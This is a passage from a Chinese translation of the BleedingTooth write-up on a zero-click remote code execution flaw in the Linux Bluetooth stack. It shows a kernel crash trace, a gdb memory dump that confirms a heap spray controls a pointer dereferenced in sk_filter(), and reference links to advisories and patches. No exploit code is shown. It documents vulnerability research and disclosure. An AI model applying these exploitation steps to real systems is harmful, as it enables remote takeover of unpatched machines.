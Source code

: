 ```
[   58.881767] R13: 0000000000000000 R14: 0000000000000001 R15: 0000000000000008
[   58.881774] FS:  0000000000000000(0000) GS:ffff96da69380000(0000) knlGS:0000000000000000
[   58.881780] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   58.881785] CR2: 000055f861e4bd20 CR3: 000000024c80a001 CR4: 00000000003606e0
[   58.881790] Call Trace:
[   58.881869]  ? __l2cap_chan_add+0x88/0x1c0 [bluetooth]
[   58.881938]  l2cap_data_rcv+0x351/0x510 [bluetooth]
[   58.881995]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[   58.882054]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[   58.882067]  ? __switch_to_asm+0x40/0x70
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```

检查受害者机器的 RDI 的内存地址，我们可以看到：

```
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:	0xffff96da601e7d00	0xffffffffc0d38760
0xffff96da38f70310:	0xffff96da60de2600	0xffff96da61c13400
0xffff96da38f70320:	0x0000000000000000	0x0000000000000001
0xffff96da38f70330:	0x0000000000000000	0x0000000000000000
0xffff96da38f70340:	0xffff96da38f70340	0xffff96da38f70340
0xffff96da38f70350:	0x0000000000000000	0x0000000000000000
0xffff96da38f70360:	0xffff96da38f70360	0xffff96da38f70360
0xffff96da38f70370:	0x0000000000000000	0x0000000000000000
0xffff96da38f70380:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70390:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703a0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703b0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703c0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703d0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703e0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703f0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70400:	0x4141414141414141	0x4242424242424242
0xffff96da38f70410:	0x4343434343434343	0x4444444444444444
0xffff96da38f70420:	0x4545454545454545	0x4646464646464646
0xffff96da38f70430:	0x4747474747474747	0x4848484848484848
```

0xffff96da38f70410 的值表明 `sk_filter()` 确实试图在 spray 的偏移 0x10 处解除对指针的引用，从 `struct amp_mgr` 的角度来看，该指针的偏移 0x110 处。Bingo！

## 内存布局泄露


[#]: subject: "BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution"
[#]: via: "https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html"
[#]: author: "Andy Nguyen (theflow@)"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://github.com/google/syzkaller
[2]: https://www.armis.com/research/bleedingbit
[3]: https://knobattack.com
[4]: https://www.armis.com/blueborne
[5]: https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag
[6]: https://youtu.be/qPYrLRausSw
[7]: http://www.bluez.org
[8]: https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00435.html
[9]: https://github.com/google/security-research/security/advisories/GHSA-ccx2-w2r4-x649
[10]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=a2ec905d1e160a33b2e210e45ad30445ef26ce0e
[11]: htts://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
[12]: https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq
[13]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=eddb7732119d53400f48a02536a84c509692faa8
[14]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=f19425641cb2572a33cb074d5e30283720bd4d22
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[16]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b560a208cda0297fef6ff85bbfd58a8f0a52a543
[17]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/extract-vmlinux
[18]: https://github.com/JonathanSalwan/ROPgadget
[19]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[20]: http://www.bluez.org/development/credits
[21]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=f19425641cb2572a33cb074d5e30283720bd4d22
[22]: https://git.kernel.org/pub/scm/linux/kernel/git/next/linux-next.git/commit/net/bluetooth?id=2bd056f550808eaa2c34a14169c99f81ead083a7
[23]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[24]: https://github.com/google/syzkaller/commits?author=TheOfficialFloW
[25]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b50dc237ac04d499ad4f3a92632470a9eb844f7d
[26]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=cafd472a10ff3bccd8afd25a69f20a491cd8d7b8
[27]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=51c19bf3d5cfaa66571e4b88ba2a6f6295311101